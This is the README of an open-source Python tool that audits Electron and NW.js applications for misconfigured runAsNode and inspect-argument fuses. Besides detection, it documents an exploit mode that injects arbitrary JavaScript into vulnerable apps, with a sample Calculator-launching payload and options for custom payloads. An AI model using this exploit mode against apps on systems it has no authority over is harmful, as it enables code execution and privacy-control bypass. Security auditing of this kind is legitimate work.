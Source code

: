 <div align="center">
             <img src=".resources/icons/AppIcon.png" alt="App Icon" width="256" />
             <h1>Project Lectricus</h1>
</div>

Python-based library for programmatically detecting potentially misconfigured Electron applications, specifically the `runAsNode` and `enableNodeCliInspectArguments` fuses allowing arbitrary code execution within the context of the application.

----------

First unveiled at MacDevOpsYVR 2024: [Electron Security: Making your Mac a worse place?](https://mdoyvr.com/schedule-2024/)

----------

This project is primarily designed for auditing purposes, starting as a side project after learning about [@tsunek0h's CVE-2023-32546](https://github.com/FFRI/PoC-public/blob/main/cb2023/Koh_Bypassing_macOS_security_and_privacy_mechanisms.pdf) and later on extending the initial work of Wojciech Reguła's [electroniz3r](https://github.com/r3ggi/electroniz3r):

* Programmatic fuse configuration detection
* Multi-platform support (macOS, Windows, Linux)
* Exporting of vulnerable applications to various formats (XML, JSON, CSV, etc.)
* Developed as a library, for easy integration into other projects
* Targets both [Electron](https://www.electronjs.org) and [NW.js](https://nwjs.io/) applications
* Simple GUI for non-technical users

----------

Since the initial conception of Lectricus in late 2023, Electron has released a statement on Electron's `runAsNode` fuse: [Statement regarding "runAsNode" CVEs](https://www.electronjs.org/blog/statement-run-as-node-cves)

Do keep in mind that Electron does not discuss the TCC bypasses that the misconfigured Electron fuses cause.

----------

## Installation

For standalone executables, see [GitHub Releases](https://github.com/ripeda/Lectricus/releases/latest).

For Python-based installation of the Python library, Lectricus is available on [PyPI](https://pypi.org/project/lectricus/):

```sh
$ python3 -m pip install lectricus
```


## Usage - GUI

Simply run `Lectricus (GUI).app` on macOS, and select `List vulnerable electron applications` to get a list of vulnerable applications.

| First window | List applications |
| :--- | :--- |
| ![Lectricus - GUI - First window](.resources/images/Lectricus%20-%20GUI%20-%20First%20window.png) | ![Lectricus - GUI - List applications](.resources/images/Lectricus%20-%20GUI%20-%20List%20applications.png) |


## Usage - Command Line

### List Vulnerable Applications

```sh
$ lectricus --list-vulnerable-apps

>>> Found 4 vulnerable applications 😱
>>> Correctly Configured Electron Fuses:
>>>   - /Applications/1Password.app
>>>   - /Applications/Keeper Password Manager.app
>>>   - /Applications/Slack.app
>>> Lacking Electron Fuse Support:
>>>   - /Applications/Advanced Privacy.app
>>>     - Vulnerabilities:
>>>       - RUN_AS_NODE
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
>>> Misconfigured Electron Fuses:
>>>   - /Applications/Tap Trustee.app
>>>     - Vulnerabilities:
>>>       - RUN_AS_NODE
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
>>>   - /Applications/Affected Makeup.app
>>>     - Vulnerabilities:
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
>>>   - /Applications/Struck Cap.app
>>>     - Vulnerabilities:
>>>       - RUN_AS_NODE
>>>       - ENABLE_NODE_CLI_INSPECT_ARGUMENTS
```

### Attempt Arbitrary Code Execution

```sh
$ lectricus.py --exploit-application "/Applications/Advanced Privacy.app"

>>> Selected exploit method: run_as_node
>>> Determined entry point: /Applications/Advanced Privacy.app/Contents/MacOS/Advanced Privacy
>>> Running exploit on /Applications/Advanced Privacy.app/Contents/MacOS/Advanced Privacy
>>> JavaScript payload: const { exec } = require("child_process"); exec("/usr/bin/open -a Calculator");
```


### Command Line Parameters

```
Detect and exploit misconfigured Electron applications

options:
  -h, --help            show this help message and exit
  --list-vulnerable-apps, -l
                        List vulnerable applications
  --export, -e          Export vulnerable applications, if '--export-location' is not specified, export to STDOUT
  --format FORMAT, -f FORMAT
                        Export format (xml, plist, json, csv)
  --export-location EXPORT_LOCATION, -o EXPORT_LOCATION
                        Export location
  --app-directory APP_DIRECTORY, -d APP_DIRECTORY
                        Application directory to search. Can provide .app directly
  --sys-platform SYS_PLATFORM, -p SYS_PLATFORM
                        Override sys.platform value used for application search. Useful for cross-platform exploitation on external
                        drives.
  --exploit-application EXPLOIT_APPLICATION, -x EXPLOIT_APPLICATION
                        Application to exploit.
  --exploit-method EXPLOIT_METHOD, -m EXPLOIT_METHOD
                        Exploit method to use.
  --javascript-payload JAVASCRIPT_PAYLOAD, -j JAVASCRIPT_PAYLOAD
                        JavaScript payload to execute. If not specified, open
                        Calculator on macOS.
  --javascript-payload-file JAVASCRIPT_PAYLOAD_FILE, -J JAVASCRIPT_PAYLOAD_FILE
                        JavaScript payload file to execute. Alternative to '--
                        javascript-payload'.
```